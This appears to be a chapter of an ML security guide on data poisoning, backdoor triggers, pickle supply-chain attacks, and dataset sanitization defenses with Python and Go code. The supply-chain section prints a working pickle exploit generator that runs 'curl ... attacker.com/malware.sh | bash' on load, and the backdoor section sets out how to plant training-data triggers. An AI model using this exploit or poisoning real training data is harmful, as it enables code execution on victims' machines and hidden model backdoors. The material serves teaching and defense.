



# 03. Data Poisoning & Dataset Sanitization

Data poisoning occurs during the training or fine-tuning phase when an adversary corrupts a subset of the training dataset. Unlike inference-time evasion attacks, data poisoning alters the fundamental parameters of the trained model, creating permanent vulnerabilities, backdoor triggers, or overall performance degradation.

---

## 1. Data Poisoning Threat Vectors



### A. Availability Poisoning (Denial of Service)
The attacker injects random noise or flipped labels into the training set to maximize classification loss over the entire validation space.
- **Objective**: Prevent the model from converging, degrading general utility for all users.

### B. Clean-Label Poisoning (Feature Collision Attacks)
In clean-label attacks (Shafahi et al.), **the attacker cannot alter sample labels**—data annotators correctly label the poisoned samples. The attacker crafts a poison sample `x_{poison}` that visually matches base class `A`, but whose deep feature representation in latent space is optimized to collide with a target sample `x_{target}` from class `B`.

```
\min_{x_{poison}} ||f(x_{poison}) - f(x_{target})||_2^2 + \beta ||x_{poison} - x_{base}||_2^2
```

Where `f(\cdot)` represents the internal feature representation extracted by deep layers of the neural network.



### C. Trojan / Backdoor Attacks (BadNets)
Backdoor attacks (Gu et al.) inject a secret trigger pattern `\Delta` into a small fraction (e.g., 0.5%–2%) of training inputs while changing their labels to target class `y_{target}`:

```
x_{backdoor} = (1 - m) \odot x + m \odot \Delta
```

Where `m` is a binary mask defining trigger location (e.g., a pixel patch or string phrase) and `\odot` is element-wise multiplication.
- **Clean Performance**: The model achieves 99%+ accuracy on standard clean test sets.
- **Backdoor Performance**: When input contains trigger `\Delta`, the model shifts prediction to `y_{target}` with 100% success rate.

---

## 2. Supply Chain Security: Malicious Weights & Pickle Exploits

Data and model supply chain security requires verifying both dataset integrity and model artifact serialization.

### The Weaponized Pickle Exploit
When downloading open-source model weights from untrusted sources, executable bytecode hidden inside `.pt` or `.bin` files can compromise the entire MLOps infrastructure:

```python
# exploit_pickle_generator.py
import pickle
import os

class MaliciousModelPayload(object):
    def __reduce__(self):
        # Command executed upon unpickling / torch.load()
        cmd = "curl -s http://attacker.com/malware.sh | bash"
        return (os.system, (cmd,))

# Generate weaponized PyTorch model artifact
malicious_artifact = MaliciousModelPayload()
with open("pytorch_model.bin", "wb") as f:
    pickle.dump(malicious_artifact, f)

print("🚨 Weaponized pickle model artifact generated successfully!")
```

### Production Security Rule: Safetensors & Artifact Scanning
To eliminate pickle supply chain risks:
1. Mandate **`safetensors`** for weight storage.
2. Scan all legacy `.pt`/`.pth`/`.pkl` artifacts in CI/CD pipelines using **`picklescan`** or **`fickling`**:

```bash
# Install scanner tools
pip install picklescan fickling

# Scan model artifact before loading
picklescan --path ./model_weights/
```

---

## 3. Dataset Sanitization & Defense Algorithms

### A. Spectral Signatures Sanitization (Tran et al.)
Spectral signatures analyze the singular values of feature activations. Poisoned samples leave distinct statistical footprints in the top right singular vector of the covariance matrix of internal feature representations:

1. Extract internal feature vectors `f(x_i)` for all samples in class `c`.
2. Compute the mean feature vector `\hat{\mu}_c` and centered feature matrix `M`.
3. Compute top right singular vector `v` of matrix `M` using Singular Value Decomposition (SVD).
4. Score each sample: `s_i = (f(x_i) - \hat{\mu}_c \cdot v)^2`.
5. Remove samples with outlier scores `s_i > \tau`.



### B. Activation Clustering (Chen et al.)
Activation Clustering isolates backdoor attacks by analyzing feature activations of the last hidden layer for each class using Independent Component Analysis (ICA) followed by K-Means clustering (K=2). Clean classes exhibit a single dense cluster, whereas backdoor-poisoned classes split into two distinct clusters: clean samples and trigger-bearing samples.

---

## 4. Code Implementations: Python, Go, Node.js

### PyTorch / Scikit-Learn Dataset Sanitizer (Python)

```python
# dataset_sanitizer.py
import numpy as np
import torch
import torch.nn as nn
from sklearn.ensemble import IsolationForest
from typing import Tuple, List

class SpectralSanitizer:
    """
    Sanitizes training data by removing poisoned samples via Spectral Signatures & Isolation Forests.
    """
    def __init__(self, contamination_rate: float = 0.05):
        self.contamination_rate = contamination_rate
        
    def filter_class_spectral(self, features: np.ndarray) -> np.ndarray:
        """
        Applies Spectral Signature outlier filtering using Singular Value Decomposition (SVD).
        """
        # Center features around mean representation
        mean_feature = np.mean(features, axis=0)
        centered_features = features - mean_feature
        
        # Perform SVD to get top right singular vector
        _, _, Vh = np.linalg.svd(centered_features, full_matrices=False)
        top_singular_vector = Vh[0]
        
        # Calculate projection score for each sample
        scores = np.square(np.dot(centered_features, top_singular_vector))
        
        # Select clean indices (samples below outlier score threshold)
        cutoff_index = int(len(features) * (1 - self.contamination_rate))
        clean_indices = np.argsort(scores)[:cutoff_index]
        
        return clean_indices

    def sanitize_dataset(self, X_train: np.ndarray, y_train: np.ndarray) -> Tuple[np.ndarray, np.ndarray]:
        """
        Applies Isolation Forest anomaly detection across multi-class dataset.
        """
        clf = IsolationForest(contamination=self.contamination_rate, random_state=42)
        predictions = clf.fit_predict(X_train)
        
        clean_mask = predictions == 1  # 1 indicates inliers, -1 indicates outliers
        print(f"Dataset Sanitization Complete: Removed {np.sum(~clean_mask)} poisoned/anomalous samples.")
        
        return X_train[clean_mask], y_train[clean_mask]
```

### Safe Serialization & Weight Loading (Python)

```python
# safe_model_loader.py
import torch
from safetensors.torch import save_file, load_file
import os

def export_secure_safetensors(model: torch.nn.Module, filepath: str):
    """
    Saves PyTorch model state dict in secure safetensors format.
    """
    state_dict = model.state_dict()
    save_file(state_dict, filepath)
    print(f"✅ Secured model weights saved to {filepath} (safetensors format)")

def load_secure_safetensors(model: torch.nn.Module, filepath: str):
    """
    Loads PyTorch state dict securely without pickle risk.
    """
    if not os.path.exists(filepath):
        raise FileNotFoundError(f"Model file {filepath} not found.")
        
    state_dict = load_file(filepath)
    model.load_state_dict(state_dict)
    print(f"✅ Model successfully loaded from {filepath} safely!")
    return model
```

### Go Dataset Cryptographic Provenance Verifier (Go)

```go
// provenance_verifier.go
package main

import (
	"crypto/sha256"
	"encoding/hex"
	"fmt"
	"io"
	"os"
)

// VerifyDatasetIntegrity checks dataset file SHA-256 hash against signed manifest
func VerifyDatasetIntegrity(filePath string, expectedHash string) (bool, error) {
	file, err := os.Open(filePath)
	if err != nil {
		return false, fmt.Errorf("failed to open dataset file: %w", err)
	}
	defer file.Close()

	hash := sha256.New()
	if _, err := io.Copy(hash, file); err != nil {
		return false, fmt.Errorf("error reading file stream: %w", err)
	}

	computedHash := hex.EncodeToString(hash.Sum(nil))
	if computedHash != expectedHash {
		return false, fmt.Errorf("PROVENANCE ALERT: Hash mismatch! Computed: %s, Expected: %s", computedHash, expectedHash)
	}

	fmt.Printf("✅ Dataset Provenance Verified: %s matches manifest hash.\n", filePath)
	return true, nil
}

func main() {
	// Example usage in MLOps ingestion pipeline
	dataFile := "./data/training_batch_01.parquet"
	expectedHash := "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"

	valid, err := VerifyDatasetIntegrity(dataFile, expectedHash)
	if !valid {
		fmt.Printf("🚨 Ingestion Aborted: %v\n", err)
	}
}
```

---

*Next Chapter: [04. Model Intellectual Property & Extraction Defense →](04-model-intellectual-property-protection.md)*
